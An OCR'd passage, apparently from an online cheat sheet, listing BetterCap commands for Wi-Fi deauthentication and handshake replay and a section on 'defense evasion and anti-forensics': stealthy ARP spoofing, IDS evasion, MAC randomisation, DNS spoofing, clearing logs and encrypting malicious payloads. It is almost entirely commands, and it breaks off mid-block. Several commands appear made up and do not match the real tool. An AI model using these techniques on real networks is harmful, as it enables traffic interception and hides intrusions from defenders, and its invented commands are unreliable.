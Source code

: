 9. **Capture and Replay Wireless Handshakes**: Captures and replays Wi-Fi handshakes to force reconnects and capture additional data.
    ```bash
    wifi.recon on
    wifi.deauth <target_bssid>
    wifi.assoc <target_bssid>
    tcp.replay on
    ```

#### Defense Evasion and Anti-Forensics

BetterCap includes features and techniques to evade detection and make it difficult for defenders to trace or block attacks.

1. **Stealth Mode Operation**: Operates in stealth mode by reducing logging and using half-duplex ARP spoofing.
    ```bash
    set net.sniff.output /dev/null
    set arp.spoof.full_duplex false
    arp.spoof on
    ```
2. **Packet Fragmentation to Evade IDS/IPS**: Fragments packets to evade detection by IDS/IPS systems.
    ```bash
    set net.sniff.fragment true
    net.sniff on
    ```
3. **Randomized MAC Address for Anonymity**: Randomizes the MAC address to evade MAC-based filtering and tracking.
    ```bash
    set wifi.recon.randomize.mac on
    wifi.recon on
    ```
4. **Traffic Shaping and Obfuscation**: Obfuscates captured traffic to make it more difficult to analyze.
    ```bash
    set net.sniff.obfuscate true
    net.sniff on
    ```
5. **Clearing Logs to Remove Evidence**: Clears BetterCap's logs, removing traces of the attack.
    ```bash
    net.clear.log
    ```
6. **HTTP Header Manipulation**: Manipulates HTTP headers to evade detection and filter bypass.
    ```bash
    set http.proxy.script header-manipulation.js
    http.proxy on
    ```
7. **DNS TTL Manipulation**: Sets a low TTL (Time to Live) on spoofed DNS records to minimize the impact and detection window.
    ```bash
    set dns.spoof.ttl 1
    dns.spoof on
    ```
8. **Dynamic Target Switching**: Dynamically switches targets during ARP spoofing to avoid triggering alarms.
    ```bash
    set arp.spoof.targets <target_ip_range>
    arp.spoof on
    ```
9. **Encrypting Payloads for Defense Evasion**: Encrypts malicious payloads to prevent detection by security systems.
    ```bash
    set http.proxy.script encrypt-payload.js